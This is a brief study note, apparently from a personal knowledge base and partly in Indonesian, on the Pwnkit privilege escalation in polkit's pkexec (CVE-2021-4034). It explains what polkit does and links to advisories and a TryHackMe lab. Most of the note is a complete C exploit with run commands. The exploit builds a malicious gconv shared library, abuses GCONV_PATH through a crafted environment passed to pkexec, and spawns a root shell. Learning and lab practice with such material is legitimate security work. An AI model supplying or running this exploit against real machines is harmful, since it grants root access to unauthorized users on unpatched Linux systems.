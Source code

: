 # Pwnkit
#privilegeescalation #memorycorruption #linux

## Pwnkit dan Pkexec
- Local privilege escalation pada polkit's pkexec (CVE-2021-4034)
- Pkexec memiliki SUID-root dan
![[Pasted image 20220129104644.png]]
- Polkit(dulunya PolicyKit) digunakan sebagai komponen yang mengontrol privilege pada Linux. Memberikan jalan kepada non-privileged process untuk berkomunikasi dengan privileged process. 
- Pkexec dapat digunakan untuk mengeksekusi perintah dengan privilege di atasnya.

## Eksploitasi
https://github.com/arthepsy/CVE-2021-4034

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

run it
```sh
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```


## Technical Details
https://seclists.org/oss-sec/2022/q1/80

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

https://ryiron.wordpress.com/2013/12/16/argv-silliness/

https://tryhackme.com/room/pwnkit
